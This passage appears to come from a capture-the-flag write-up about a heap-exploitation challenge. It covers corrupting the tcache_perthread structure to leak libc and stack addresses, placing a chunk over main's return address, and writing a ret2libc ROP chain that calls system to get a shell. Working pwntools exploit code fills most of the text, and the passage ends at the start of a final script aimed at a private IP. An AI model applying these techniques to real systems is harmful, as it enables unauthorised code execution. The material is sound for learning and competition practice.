 For libc leak, I forced `C` to be put in unsorted bin by writing `7` to all tcache bins counters. Then I read the libc leak using `B`.
```python
write(tcache_perthread, b'\x07\x00'*64)

free(C)
read(B)

p.recv(0x38 + 8)
libc_leak = u64(p.recv(8))
libc.address = libc_leak - 0x203b20

print(hex(libc.address))
```

For stack leak, I wrote `1` to all tcache bin counters and put address of `environ` to tcache bins heads. This will return `environ` by `malloc` that I can then read. But this didn't work because for some reason, `environ` had no pointer. It was `NULL`. Then I used `gef`'s `search libc stack` for finding stack pointers in libc and used one of them.
```python
write(tcache_perthread, b'\x01\x00'*64 + p64(libc.address + 0x2046e0)*16)

leak = alloc(4, 0x50)

read(leak)
stack_leak = u64(p.recv(8))
```

Then I used the same technique to get pointer at the return location of `main` to write rop chain. Because tcache pointers need to 16-byte aligned, I subtracted `8` to overwrite from the saved `rbp`. Then I wrote a simple `ret2libc` rop to run `system` and get shell.

```python
write(tcache_perthread, b'\x01\x00'*64 + p64(stack_leak - 296)*16)

rop = alloc(5, 0x50)

write(rop, b''.join([p64(x) for x in [
	0, # rbp
	libc.address + POP_RDI, libc.address + 0x1cb42f,
	libc.address + POP_RDI + 1,
	libc.sym.system]]))

sendchoice(0)
```

### Final Exploit
```python
#!/usr/bin/env python3
from pwn import *

def start() -> tube:
    if args.REMOTE:
        return remote("192.168.18.50", 33427)
    else:
        return elf.process()
    
def attach_gdb() -> None:
    if args.REMOTE or args.NOGDB:
        return
    
    gdb.attach(p, '''
    heap chunks
    heap bins
    continue
               ''')
```